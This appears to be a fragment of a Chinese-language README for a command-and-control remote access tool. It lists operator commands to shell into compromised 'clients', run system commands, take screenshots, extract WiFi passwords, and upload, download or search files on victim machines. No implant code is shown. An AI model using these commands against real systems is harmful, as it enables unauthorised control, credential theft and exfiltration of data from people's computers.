 ### 基础命令
```bash
# 查看客户端列表
C2> list

# 进入交互式Shell
C2> shell client_1

# 执行系统命令
C2> cmd client_1 whoami
```

### 信息收集
```bash
# 获取系统信息
C2> sysinfo client_1

# 屏幕截图
C2> screenshot client_1

# 获取WiFi密码
C2> wifi client_1
```

### 文件操作
```bash
# 文件上传
C2> upload client_1 /path/to/local/file

# 文件下载
C2> download client_1 C:\path\to\remote\file

# 文件搜索
C2> search client_1 -p C:\Users -n *.doc -s 1MB-10MB
```

## 文件搜索语法

```bash
search <client_id> [选项]
选项:
  -p, --path <path>      # 搜索路径
  -n, --name <pattern>   # 文件名模式
  -d, --depth <num>      # 搜索深度
  -s, --size <range>     # 大小范围
  -e, --ext <exts>       # 扩展名
  -c, --content <text>   # 内容搜索
```

## 加密通信
